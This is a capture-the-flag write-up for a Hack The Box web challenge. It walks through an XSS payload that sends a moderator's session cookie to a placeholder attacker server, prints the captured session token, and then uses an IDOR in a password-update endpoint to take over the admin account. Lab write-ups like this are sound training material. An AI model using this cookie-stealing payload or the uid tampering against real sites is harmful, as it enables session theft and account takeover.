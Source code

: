 # Kryptos Support (Web)

![Kryptos Ticket Submission](kryptos_support1.png)

## Initial Recon

Examing source code and looking at the HTTP requests in BurpSuite, found two endpoints:
- `/api/tickets`
- `/api/login`

GoBuster yielded no usable results.

## XSS Injection

Started an HTTP server on my machine and started experimenting with different XSS payloads.

`python3 -m http.server 80`
  
Found a winner!

`<img src=x onerror="location.href='http://your-web-server/?cookie=' + document.cookie">`

Checking our python3 web server, we can see we've now got a session cookie!

`/?cookie=session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI1MzQ4ODV9.JO12yEA44QxXgfUmL3n6Sm4Et2AJc5rkvXkvSMdmFOI`

Manually put the cookie into your browser, and BOOM, we're logged in as `moderator` and can see the list of support tickets at `/tickets`.

![Kryptos Ticket Submission](kryptos_support2.png)

## Further Exploitation

Once logged in as `moderator`, we can see a link for a "Settings" page in the top left. This page allows you to change your password (without knowing the current password), and uses the endpoint: `/api/users/update`

Capturing a password change for our current session, Burp shows us the following information included in the POST request:

    {
        "password":"test",
        "uid":"100"
    }

Guessing the admin account may have a uid of 1, we use Burp repeater to send the following POST:


    {
        "password":"test",
        "uid":"1"
    }
    
Now, delete your cookies, return to the `/login` page, and login as `admin:test`.

There's your flag! `HTB{x55_4nd_id0rs_ar3_fun!!}`

